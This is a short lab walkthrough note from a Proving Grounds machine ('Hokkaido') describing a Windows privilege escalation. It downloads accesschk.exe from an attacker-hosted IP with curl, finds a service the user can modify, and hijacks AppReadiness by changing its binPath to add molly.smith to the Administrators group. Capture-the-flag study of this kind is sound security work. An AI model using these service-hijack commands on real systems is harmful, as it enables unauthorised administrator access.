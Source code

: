 
## Alternate Priv Esc - Hijack Execution Flow

```
curl http://192.168.45.152/accesschk.exe -o accesschk.exe
```

https://medium.com/@mu.aktepe18/hokkaido-proving-ground-walk-through-922b8ef9af43

```
accesschk.exe -cuwqv "molly.smith" * /accepteula
```

![[PG/Active Directory/attachments/Pasted image 20250709113544.png]]

change binpath of any of these services for privilege escalation

We'll select "AppReadiness"

```
sc qc AppReadiness
```

```
accesschk.exe -cuwqv "molly.smith" AppReadiness
```

Molly has all access to this service 

![[PG/Active Directory/attachments/Pasted image 20250709113734.png]]

Change binpath of AppReadiness to add molly.smith to administrators group.

```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators molly.smith /add"
```


![[PG/Active Directory/attachments/Pasted image 20250709113815.png]]

Stop and start service to enact the change 

```
sc stop AppReadiness
```

```
sc start AppReadiness
```

```
net localgroup administrators
```


log out and log in again to refresh the token

Get flag 

```
whoami & type proof.txt & ipconfig
```